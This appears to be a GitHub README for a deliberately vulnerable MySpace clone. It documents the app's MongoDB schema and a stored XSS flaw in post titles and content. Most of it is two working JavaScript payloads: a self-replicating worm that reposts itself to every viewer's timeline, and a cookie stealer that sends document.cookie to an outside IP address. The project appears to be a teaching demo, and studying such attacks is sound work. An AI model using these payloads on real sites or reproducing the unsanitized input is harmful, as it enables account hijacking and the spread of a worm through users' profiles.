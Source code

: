 # YourSpaceWorm
Simple myspace clone vulnerable to a myspace worm

## Database:

Mongodb nosql database. Everything stored as documents (jsons)

### users document:
```json

{
    _id: ObjectId
    username: unique string
    password: string
    name: string
    timeline: [ post subdocument ]
}
```
### posts subdocument:
```json
{
    _id: ObjectId
    title: string
    content: string
}
```

## Stored XXS
The website posts are vulnerable to stored xxs. Users can put js code into both the title and content of the posts which allows them to customize their profile. 

# Worm Code 

### Title
```html
<!-- Title -->
<span class="worm-title">Mike Zylka is the coolest person out there. Go visit his site. </span>
```
### Content
```html
<!-- Content -->
<script class="worm-script" async>
(function() {
let wormTitle = "<span class='worm-title'>" +document.getElementsByClassName('worm-title')[0].parentElement.innerText + "</span>";
console.log(wormTitle)

let wormContent = "<script class=\"worm-script\" async>" + document.getElementsByClassName('worm-script')[0].innerText + "<\/script>";
console.log(wormContent)


async function wormPost() {
const result = await fetch('/createPost', {
                            method: 'POST',
                            headers: {
                                'Content-Type': 'application/json'
                            },
                            body: JSON.stringify({
                                title: wormTitle,
                                content: wormContent
                            })
                        }).then((res) => res.json());
console.log(result);
}

wormPost()

})();
</script>
```


# Cookie Stealer Code 

## Title

```html
This will steal your cookies 
```

## Content

```html
<!-- Content -->
<script class="cookie-stealer" async>
(function() {



async function cookieStealer() {
let xhr = new XMLHttpRequest();
xhr.open('get', `http://10.156.88.35:8000?cookies = ${document.cookie}`);
xhr.send();
}

cookieStealer()

})();
</script>
```
